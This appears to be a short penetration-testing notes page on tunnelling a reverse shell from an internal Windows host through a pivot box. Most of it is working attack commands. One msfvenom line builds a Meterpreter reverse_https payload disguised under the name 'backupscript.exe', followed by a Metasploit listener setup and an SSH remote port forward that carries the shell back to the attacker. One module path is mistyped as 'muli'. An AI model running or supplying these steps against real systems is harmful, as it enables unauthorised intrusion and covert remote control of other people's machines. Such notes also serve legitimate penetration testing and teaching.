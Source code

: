 -- -
Presented as a way to get a reverse shell from an internal host to your attack host that is not connected to the internal network directly. You will be tunneling the reverse shell through a pivot host you control. 
### Steps
1. Create payload for reverse shell from target internal host to the pivot host
2. File transfer payload to pivot host, then to the target internal host
3. Setup listener on attack host
4. Setup port forward from pivot box to attack box
5. Execute payload on target internal host, tunnel should send the shell back to your listener on your attackbox
### Execution
1. Create the payload on attack box:
```bash 
msfvenom -p windows/x64/meterpreter/reverse_https lhost=<pivotbox internal ip> lport=8080 -f exe -o backupscript.exe
```
2. [[Dark Arts I/File Transfer/~Home|File Transfer]] payload to pivot box, and then to the target internal host.
3. Setup attack box listener
```bash
msfconsole
use exploit/muli/handler
set lhost 0.0.0.0
set lport 8000
run
```
4. Setup remote port forward, from attack box
```bash
# -vN: verbose, no login prompt
# -R: Asks pivot box to listen on port 8080 and forward traffic to our attack host on port 8000
ssh -R <pivot host ip>:8080:0.0.0.0:8000 <user>@<pivot IP> -vN
```
5. Execute the payload on the internal target host, you should get a shell on your meterpreter listener. 